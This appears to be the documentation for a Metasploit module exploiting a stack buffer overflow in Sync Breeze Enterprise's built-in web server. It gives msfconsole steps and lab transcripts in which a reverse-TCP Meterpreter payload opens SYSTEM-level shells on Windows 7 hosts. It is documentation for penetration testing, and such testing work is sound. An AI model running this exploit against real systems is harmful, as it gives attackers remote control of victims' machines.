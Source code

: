 ## Vulnerable Application

[Sync Breeze Enterprise](http://www.syncbreeze.com) versions up to v9.4.28, v10.0.28, and v10.1.16
are affected by a stack-based buffer overflow vulnerability which can be leveraged by an attacker
to execute arbitrary code in the context of NT AUTHORITY\SYSTEM on the target. The vulnerabilities
are caused by improper bounds checking of the request path in HTTP GET requests and username value
via HTTP POST requests sent to the built-in web server, respectively.

This module has been tested successfully on Windows 7 SP1. The vulnerable applications are available
for download at [Sync Breeze Enterprise v9.4.28](http://www.syncbreeze.com/setups/syncbreezeent_setup_v9.4.28.exe)
and [Sync Breeze Enterprise v10.0.28](http://www.syncbreeze.com/setups/syncbreezeent_setup_v10.0.28.exe).

## Verification Steps

  1. Install a vulnerable Sync Breeze Enterprise
  2. Start `Sync Breeze Enterprise` service
  3. Start `Sync Breeze Enterprise` client application
  4. Navigate to `Tools` > `Sync Breeze Options` > `Server`
  5. Check `Enable Web Server On Port 80` to start the web interface
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/syncbreeze_bof`
  8. Select appropriate target via `set target 0` or `set target 1`
  9. Do `set RHOST ip`
  10. Do `check`
  11. Verify the target is vulnerable
  12. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
  13. Do `set LHOST ip`
  14. Do `exploit`
  15. Verify the Meterpreter session is opened

## Scenarios

###Sync Breeze Enterprise v9.4.28 on Windows 7 SP1

```

msf exploit(syncbreeze_bof) > show options 

Module options (exploit/windows/http/syncbreeze_bof):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.2.10     yes       The target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.2.187    yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Sync Breeze Enterprise v9.4.28


msf exploit(syncbreeze_bof) > exploit 

[*] Started reverse TCP handler on 192.168.2.187:4444 
[*] Sending request...
[*] Sending stage (957427 bytes) to 172.16.0.18
[*] Meterpreter session 1 opened (172.16.0.20:4444 -> 172.16.0.18:49162) at 2017-05-16 11:00:25 +0100

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : PC-01
OS              : Windows 7 (Build 7600).
Architecture    : x86
System Language : pt_PT
Domain          : LAB
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter >
```

###Sync Breeze Enterprise v10.0.28 on Windows 7 SP1

```
msf > use exploit/windows/http/syncbreeze_bof 
msf exploit(syncbreeze_bof) > set rhost 192.168.10.61
rhost => 192.168.10.61
msf exploit(syncbreeze_bof) > set target 1
target => 1
msf exploit(syncbreeze_bof) > exploit

[*] Started reverse TCP handler on 192.168.10.60:4444 
[*] Sending request...
[*] Sending stage (171583 bytes) to 192.168.10.61
[*] Meterpreter session 1 opened (192.168.10.60:4444 -> 192.168.10.61:4129) at 2017-10-09 13:22:15 -0400
[+] negotiating tlv encryption
[+] negotiated tlv encryption
[+] negotiated tlv encryption

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MUSHROOMKINGDOM
OS              : Windows 7 (Build 7600).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```